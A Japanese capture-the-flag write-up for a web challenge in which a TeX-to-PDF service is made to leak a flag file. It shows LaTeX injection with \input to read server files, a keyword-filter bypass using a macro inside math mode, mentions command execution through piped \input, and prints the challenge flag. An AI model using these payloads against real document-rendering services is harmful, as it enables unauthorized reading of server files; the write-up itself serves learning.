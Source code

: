 # [WEB] textex 92pts
texをpdfにするサービスを作りました。
texで攻撃することはできますか？

https://textex.quals.beginners.seccon.jp
# Solution
問題文の通り、texをpdfにするサイト\
![textex1](images/textex1.png)\
与えられたソースコードの Dockerfile より flag が書かれているであろうファイルが `/var/www/` 以下にあることがわかる。texからpdfに変換する際にflagファイルを表示させる方法を考える。texの知識が0だったので、`TeX 外部ファイル 表示` とかで検索してみると、それに関するブログを見つけた。
> TeXのコマンドには、\input という別のTeXファイルを読み込むコマンドがありますが、 \input の引数が |"command"（先頭にパイプが1つとダブルクオートで囲われた文字列）のようになっていると、指定したコマンド command が実行されます。

これでいける！と思って問題のサイトに `\input{"requirements.txt"}` を入力して、pdfに変換したら、`requirements.txt` の内容が表示された。\
![textex2](images/textex2.png)\
同様の方法で`\input{"flag"}`を試すと、エラー表示がされて表示されない。ここで、長時間悩み諦めた。\
実は、入力文字列にflagが含まれている場合はエラー表示が起きるように設定されていた。（問題の初めに気づいてはいたが、inputの存在を知ってから完全に忘れてた悲しみ）
### app.py
```Python
    # .tex -> .pdf
    try:
        # No flag !!!!
        if "flag" in tex_code.lower():
            tex_code = ""
        # Write tex code to file.
        with open(f"tex_box/{filename}/{filename}.tex", mode="w") as f:
            f.write(tex_code)
        # Create pdf from tex.
        subprocess.run(["pdflatex", "-output-directory", f"tex_box/{filename}", f"tex_box/{filename}/{filename}.tex"], timeout=0.5)
    except:
        pass
```
flagを別の方法で表す必要があるので、マクロ定義を用いてみる。
```latex
\documentclass{article}
\def\lag{lag}
\begin{document}

\input{f\lag}

\end{document}
```
しかし、これも結果はエラー。\
Texについて調べていくと、`_` は特殊文字として扱われるため、そのまま入力することはできないらしい。数式モードでは使用でき、この場合は下付き文字になる。
```latex
\documentclass{article}
\def\lag{lag}
\begin{document}

$\input{f\lag}$

\end{document}
```
すると、flagの内容っぽいのが表示された。\
![textex3](images/textex3.png)\
下付き文字をもとに戻すと、`ctf4b{15_73x_pr0n0unc3d_ch0u?}`

難しすぎた


# References
- https://tex2e.github.io/blog/latex/input-external-commands
- https://munibus.hatenablog.com/entry/2018/10/29/070852